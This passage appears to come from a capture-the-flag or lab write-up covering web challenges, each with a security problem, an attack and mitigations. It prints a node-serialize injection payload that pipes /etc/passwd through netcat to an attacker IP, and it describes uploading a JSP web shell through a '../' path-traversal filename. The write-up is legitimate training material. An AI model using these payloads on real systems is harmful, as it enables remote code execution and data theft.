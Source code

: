 **Mitigation:**

* Applications Code needs to be improved \(data input validation\)
* Use of middleware \(for example: joi/celebrate if you use NodeJS\) 
* A proper setup of a WAF could block such requests

==&gt; 5/5 Points

## 2406 CowbellShop 7 SERIAL

**Security Problem:**   
In a node application the users search input will most likely be converted to a object using node-serialization function.

**Attack:**   
Serialization / Send content of /etc/passwd over port 80 to the hacker by entering the following to the search field:

```text
_$$ND_FUNC$$_function (){require('child_process').exec('cat /etc/passwd |nc 10.201.1.118 80');}()
```

The hacker is able to see the content sent by the victim in his shell \(See screenshot\)

**Mitigation**

* Secure application / secure programming \(data input validation\)
* Patch framework and/or use middleware to validate user-input
* WAF-Setup could help 

==&gt; 5/5 Points

## 2503 PLUpload Challenge

**Security Problem:**   
The fileupload script is running on a linux/unix like webserver with a tree-based directory structure. The folder which the uploaded files will be placed is not secure enough

**Attack:**   
Uploaded shell3.jsp with the uploaded but intercepted the request with ZAP, changed the filename to ../shell3.jsp. Two dots with slash \(../\) in linux/unix environments means one directory up. So the script is uploaded to an public directory where we can execute it. Then used Firefox to access the script, which ran and we're able to navigate to /var/gold.txt.

See screenshot

**Mitigation:**

* Hardending/Securing the PLUpload script/application
* Secure the webserver
* Use of Sandbox \(so the uploaded files are seperate and not close in the tree to execute\)

## 2600 Web Security: XML Path Traversal

**Security Problem:**   
Same as before, the problem is the tree structure of a linuxed based operating systems and the possibility \(here xml\) to search for specific files and their content.
